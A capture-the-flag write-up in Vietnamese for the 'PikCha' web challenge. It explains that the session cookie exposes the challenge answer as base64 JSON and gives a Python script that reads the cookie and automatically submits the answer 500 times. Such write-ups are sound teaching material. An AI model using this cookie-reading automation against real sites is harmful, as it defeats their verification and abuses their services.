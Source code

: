 PikCha
===
**Category:** Web

**Author:** Soul#8230
### Description
- Site: `http://104.197.195.221:8084`

### Overview
Trang web có một ô chúng ta input vào và kèm theo đó là 4 hình ảnh liên tục thay đổi sau mỗi lần ta refesh. Có vẻ như mục đích của site là chúng ta chỉ cần input và đúng 500/500 liên tục thì sẽ có flag. Kiểm tra cookie thì có một `session` và mỗi lần chúng ta refesh thì cũng thay đổi.

### Solution
Như chúng ta thấy thì site có session nên chúng ta thử jwt decode nó xem coi dữ liệu của nó là gì 
![image](https://user-images.githubusercontent.com/54855855/113515643-ee94cd00-959f-11eb-993d-2a9102c61c7f.png)
Kết quả chúng ta nhận thấy được phần header chính là bao gôm answer, số lần đúng và hình ảnh hoạt hình.
Ban đầu mình thử như cộng trừ các số đó rồi submit nhưng vẫn không đúng được bất kì cái nào, tiếp tục mình theo dõi hình ảnh xem hình nào nằm cân bằng (giống như xác nhận capcha) thì mình lấy con số mà tương ứng với vị trí của hình đó nhưng cũng fail. Cuối cùng mình thử nhập các số đó vô thẳng trực tiếp thì nhận được câu trả lời đúng.
Như cookie ở trên thì mình nhập vô là `28 120 20 95` => mình chỉ cần viết script đơn giản để auto việc này để có thể solved 500/500 thì có flag.

##### Payload
- `poc.py`
```py
from re import findall, sub
import requests
import base64
import json

def decode_base64(data, altchars=b'+/'):
    data = sub(r'[^a-zA-Z0-9%s]+' % altchars, '', data)  # normalize
    missing_padding = len(data) % 4
    if missing_padding:
        data += '='* (4 - missing_padding)
    return base64.b64decode(data, altchars)

url="http://104.197.195.221:8084/"
ses = requests.Session()

while True:
	r = ses.get(url)
	data=(r.cookies["session"]).split(".")[0]
	decode_data = decode_base64(data)
	payload = json.loads(decode_data)['answer']
	data_format = " ".join(str(i) for i in payload)
	r1 = ses.post(url = url, data = {"guess":data_format})
	print(r1.text)
```
